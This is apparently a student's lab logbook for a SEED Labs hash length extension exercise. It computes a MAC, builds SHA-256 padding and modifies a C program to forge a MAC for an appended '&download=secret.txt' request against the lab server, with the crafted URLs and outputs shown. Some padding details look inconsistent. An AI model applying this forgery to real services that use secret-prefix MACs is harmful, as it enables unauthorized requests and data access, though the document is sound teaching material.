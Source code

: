 # Hash Lenght Extension Attack

## Introduction

In this logbook we explore hash lenght extension attacks and learn how they work.

## Task 1

In this task we are challenged to send a benign request to the server in order to see how it responds.

The blueprint for our request is as follows:

```bash
http://www.seedlab-hashlen.com/?myname=<name>&uid=<need-to-fill>&lstcmd=1&mac=<need-to-calculate>
```

We then filled this with our information:

```bash
http://www.seedlab-hashlen.com/?myname=PedroSantos&uid=1001&lstcmd=1&mac=<need-to-calculate>
```

To calculate the mac value that we needed, we used the following command:

```bash
echo -n "123456:myname=PedroSantos&uid=1001&lstcmd=1" | sha256sum
```

The output is the mac that we wanted: 

```bash
fb16a39ad5a2d943df13ca1eba7660fbe2cda232799c6b12e54962b80f7cd084
```

<div align="center">
    <figure>
        <img src="images/logbook10/mac_calculated.png">
        <figcaption style="font-size: smaller">Figure 1: Mac calculated using the terminal</figcaption>
    </figure>
</div>

We finally have the full request we need:

```bash
http://www.seedlab-hashlen.com/?myname=PedroSantos&uid=1001&lstcmd=1&mac=fb16a39ad5a2d943df13ca1eba7660fbe2cda232799c6b12e54962b80f7cd084
```

After checking on our browser we can see the confirmation that the request is valid.

<div align="center">
    <figure>
        <img src="images/logbook10/request.png">
        <figcaption style="font-size: smaller">Figure 2: Mac calculated using the terminal</figcaption>
    </figure>
</div>

## Task 2

In this task we are supposed to create a padding for this message: `1001:myname=PedroSantos&uid=123456&lstcmd=1`. Firstly we need to know the length of the padding, and as the string is 43 bytes long, the padding should be 64 - 43 = 21 bytes. Knowing that our string is 43 bytes long we need to add 43 * 8 = 344 (in hexadecimal: 0x158) to the end of our padding. This is how it turned out:

```bash
# Message:
"1001:myname=PedroSantos&uid=123456&lstcmd=1"
# Padding:
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x58"
```

## Task 3

In this task we must generate a valid MAC without knowing the MAC key.

We altered the `length_ext.c` file to use our previously used MAC and the intended Extra Message (&download=secret.txt):

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char*argv[]){
	int i;
	unsigned char buffer[SHA256_DIGEST_LENGTH];
	SHA256_CTX c;
	
	SHA256_Init(&c);
	for(i=0; i<64; i++)
		SHA256_Update(&c, "*", 1);
		
	// MAC of the original message M (padded)
	c.h[0] = htole32(0xfb16a39a);
	c.h[1] = htole32(0xd5a2d943);
	c.h[2] = htole32(0xdf13ca1e);
	c.h[3] = htole32(0xba7660fb);
	c.h[4] = htole32(0xe2cda232);
	c.h[5] = htole32(0x799c6b12);
	c.h[6] = htole32(0xe54962b8);
	c.h[7] = htole32(0x0f7cd084);
	
	// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);
	for(i = 0; i < 32; i++) {
		printf("%02x", buffer[i]);
	}
	printf("\n");
	return 0;
}
```
After compiling and running this file we receive the following output:

```bash
d8991b22cbfb969d440348cc9b39bc8e3a9a66dd1673f5f2e591a20f4cc04b14
```
We can now construct the full request, using the previously obtained request, padding and MAC:
```
http://www.seedlab-hashlen.com/?myname=PedroSantos&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%58&download=secret.txt&mac=d8991b22cbfb969d440348cc9b39bc8e3a9a66dd1673f5f2e591a20f4cc04b14
```
We now test this request on the browser and receive the following confirmation message:

<div align="center">
    <figure>
        <img src="images/logbook10/success.png">
        <figcaption style="font-size: smaller">Figure 3: Success</figcaption>
    </figure>
</div>
